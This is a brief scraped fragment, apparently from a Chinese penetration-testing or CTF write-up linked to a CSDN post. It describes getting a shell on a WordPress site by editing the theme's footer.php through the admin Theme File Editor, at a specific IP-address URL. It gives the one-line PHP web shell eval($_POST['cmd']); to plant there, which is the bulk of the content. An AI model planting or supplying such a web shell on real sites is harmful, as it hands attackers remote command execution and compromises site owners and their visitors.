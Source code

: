 [Link](https://blog.csdn.net/longlangci/article/details/131686439)

```sh
修改主题文件：Appearance—>Theme File Editor—>Theme Footer成功getshell。
http://39.99.136.199/wp-admin/theme-editor.php?file=footer.php&theme=twentytwentyone
加上
eval($_POST["cmd"]);
```
